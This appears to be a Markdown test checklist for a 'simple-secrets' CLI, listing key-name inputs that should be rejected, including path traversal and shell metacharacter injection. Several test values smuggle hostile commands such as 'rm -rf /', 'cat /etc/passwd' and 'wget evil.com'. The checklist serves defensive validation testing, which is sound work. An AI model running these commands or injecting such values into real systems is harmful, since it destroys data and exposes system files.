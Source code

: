 - [ ] **Null byte injection**: `./simple-secrets put $'test\x00key' "value"` → should fail with "cannot contain null bytes"
- [ ] **Control character injection**: `./simple-secrets put $'test\x01key' "value"` → should fail with "cannot contain control characters"
- [ ] **Path traversal**: `./simple-secrets put "test/path" "value"` → should fail with "cannot contain path separators"
- [ ] **Path traversal dots**: `./simple-secrets put "test..traversal" "value"` → should fail with "cannot contain path traversal sequences"
- [ ] **Backslash separator**: `./simple-secrets put "test\\key" "value"` → should fail with "cannot contain path separators"
- [ ] **Tab character allowed**: `./simple-secrets put $'test\tkey' "value"` → should succeed (tabs are allowed)
- [ ] **Newline allowed**: `./simple-secrets put $'test\nkey' "value"` → should succeed (newlines are allowed)
- [ ] **Carriage return allowed**: `./simple-secrets put $'test\rkey' "value"` → should succeed (CR is allowed)

### 🚨 **Security: Shell Metacharacter Injection (Fixed Vulnerabilities)**

- [ ] **Command substitution $()**: `./simple-secrets put "key$(rm -rf /)" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **Command substitution backticks**: `./simple-secrets put "key\`whoami\`" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **Dollar variable expansion**: `./simple-secrets put "key$HOME" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **Dollar brace expansion**: `./simple-secrets put "key\${USER}" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **Pipe injection**: `./simple-secrets put "key|cat /etc/passwd" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **Command separator semicolon**: `./simple-secrets put "key;rm -rf /tmp" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **Background process ampersand**: `./simple-secrets put "key&wget evil.com" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **Output redirection**: `./simple-secrets put "key>malicious_file" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **Input redirection**: `./simple-secrets put "key<input_file" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **Glob wildcard asterisk**: `./simple-secrets put "key*" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **Glob wildcard question**: `./simple-secrets put "key?" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **Brace expansion**: `./simple-secrets put "key{a,b,c}" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **Bracket globbing**: `./simple-secrets put "key[0-9]" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **Tilde home expansion**: `./simple-secrets put "key~user" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **History expansion**: `./simple-secrets put "key!!" "value"` → should fail with "cannot contain shell metacharacters"
- [ ] **Comment character**: `./simple-secrets put "key#comment" "value"` → should fail with "cannot contain shell metacharacters"

